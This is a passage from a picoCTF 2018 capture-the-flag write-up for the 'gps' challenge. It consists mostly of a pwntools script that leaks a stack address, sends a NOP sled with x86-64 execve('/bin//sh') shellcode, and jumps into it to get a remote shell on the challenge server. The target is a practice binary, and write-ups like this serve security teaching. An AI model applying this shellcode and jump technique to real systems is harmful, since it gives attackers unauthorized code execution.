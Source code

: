 ![./got_flag.png](./got_flag.png)

Clearly, this was the intended solution. Here's the exploit code:

```python
### exploit-gps.py
### by Sudoite

from pwn import *
import binascii

local = False
debug = True


shellcode =  "\x48\xc7\xc2\x00\x00\x00\x00\x48"
shellcode += "\xc7\xc6\x00\x00\x00\x00\x6a\x00"
shellcode += "\x48\xb8\x2f\x62\x69\x6e\x2f\x2f"
shellcode += "\x73\x68\x50\x48\x89\xe7\x48\xc7"
shellcode += "\xc0\x3b\x00\x00\x00\x0f\x05"

if local:
    p = process('./gps')
else:
    p = remote("2018shell.picoctf.com", 58896)

if local and debug:
    gdb.attach(p, '''
        break *0x400aa3
        continue
        ''')
# 0x400aa3: after scanf, to look at the stack

## Get the current position
p.recvuntil("Current position: ")
position_string = p.recv(14)
#log.info("received position: " + position_string)
POSITION_ADDR = int(position_string, 16)
#log.info("position as int = " + str(POSITION_ADDR))
#log.info("and as hex = " + hex(POSITION_ADDR))

## Send the shellcode
payload = "\x90"*1337 + shellcode + "\n"
p.sendafter("plan?\n> ", payload)

## Calculate the location to execute and send it to the server
offset = 0x39b # Got this from looking at the stack with GDB
location = POSITION_ADDR + offset
location_string = hex(location)[2:]
#log.info("location_string = " + location_string)
p.sendafter("start?\n> ", location_string + "\n")

```